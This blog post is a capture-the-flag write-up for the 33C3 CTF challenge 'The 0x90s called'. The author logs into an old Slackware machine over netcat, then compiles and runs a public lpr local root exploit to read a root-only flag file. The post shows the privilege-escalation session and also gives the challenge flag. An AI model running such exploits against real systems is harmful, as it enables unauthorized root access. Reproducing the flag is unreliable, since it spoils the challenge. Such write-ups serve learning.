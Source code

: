 ```yaml
---
title: '[33C3 CTF] The 0x90s called Writeup'
author: Megabeets
type: post
date: 2016-12-29T20:00:28+00:00
url: /33c3-ctf-0x90s-called-writeup/
sharing_disabled:
  - 1
categories:
  - 33C3 CTF
  - Writeups
tags:
  - 33C3
  - CTF
  - PWN
  - Writeups

---
```

### **Description:**

> **The 0x90s called &#8211; PWN**
> 
> The 0x90s called, they want their vulns back!  
> [Pwn this and get the flag.][1] Who would&#8217;ve thought?  
> If you want to try it locally first, [check this out][2].

This challenge was pretty simple and obvious. We are given with a website that is requesting a &#8216;proof of work&#8217; from us to reduce the load on their infrastructure. We need to press start and then we get a port to which we can connect using `netcat`, username and password. We connect to the server and search for the flag.

```sh
Megabeets:~# nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ls -la / | grep flag
-r--------   1 root     root           36 Dec 27  1916 flag.txt
slack:~$
```


Look at the highlighted rows. We can see that we are in _Slack Linux 0.99pl12_ machine, that _flag.txt_ is on the root folder and that only _root_ can read it. Before trying anything special or complicated, lets search online for known exploit to this version.

[<img src="../uploads/90s_called_1.png" />][3]Oh, this was easy! There&#8217;s a known exploit available on _Github_.



Lets run it to see if it works, and if so read the flag.

```sh
slack:~$ gcc exploit.c -o exploit
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ./exploit
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3
```


&nbsp;

It worked just fine (thanks [prdelka][4] for the exploit)! We got _root_ permissions and were able to read the flag.  
**Flag**: _33C3\_Th3\_0x90s\_w3r3\_pre3tty_4w3s0m3_

I’ll be happy to read in the comments how the challenge was for you.

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://78.46.224.70:8080/
 [2]: https://33c3ctf.ccc.ac/uploads/qemu-xmas-slackware.tar.xz
 [3]: http://www.megabeets.net/uploads/90s_called_1.png
 [4]: https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c